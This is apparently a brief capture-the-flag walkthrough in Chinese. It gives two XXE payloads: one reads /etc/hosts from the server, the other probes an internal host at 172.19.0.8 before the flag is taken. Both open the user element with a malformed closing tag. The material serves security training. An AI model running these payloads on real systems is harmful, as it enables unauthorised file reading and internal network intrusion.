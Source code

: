 * 多一个探测内网的步骤
* 先读/etc/hosts

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/hosts"> ]> 
</user><username>&goodies;</username><password>password</password></user>
```

* 接着探测内网

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "http://172.19.0.8/"> ]> 
</user><username>&goodies;</username><password>password</password></user>
```

* 之后即可获取flag